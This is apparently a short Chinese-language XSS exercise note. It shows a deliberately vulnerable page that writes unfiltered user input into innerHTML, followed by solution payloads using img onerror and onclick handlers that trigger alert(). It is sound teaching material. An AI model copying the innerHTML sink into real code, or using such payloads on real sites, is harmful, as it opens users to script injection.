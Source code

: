 :::spoiler ~~來做一個可以被XSS攻擊的網站吧!~~
```javascript=
    <html>
        <head>
            <title>Hello XSS!</title>
        </head>
        <body>
            <input type = 'text' id = "Input">
            <button id="Button">Save</button>
            <div>
                Hello, <span id = "Output"></span>
            </div>
            <script src="XSS.js"></script>
        </body>
    </html>
```
```javascript=
var Input = document.getElementById('Input');
var Button = document.getElementById('Button');
var Out = document.getElementById('Output');

Button.addEventListener('click', function(){
    Out.innerHTML = Input.value;
})
```
:::

>
> 今天的網站這是走現代簡約主義
    > 絕對不是因為我不想寫 CSS (重點)
> [name=zhen]

> 你們可以輸入一些奇奇怪怪的東西(do NOT modify code)
> 因為我什麼都沒有過濾，所以什麼都可以進去了對不對 >///<
> [name=zhen]

:::spoiler 解法
```
1.        <img  src="" onerror="alert('Error')">
2. <button onclick="alert('Allow')">Click</button>
3 <input type="button" value="他會跳出alert" name="btn" onclick = alert()>

```
> 失敗的嘗試:
```
        onclick="alert(1)"
        eval("alert(1)")
        document.getElementById('Button').onclick(function(){
            alert(1);   
        }
       )
```       

:::
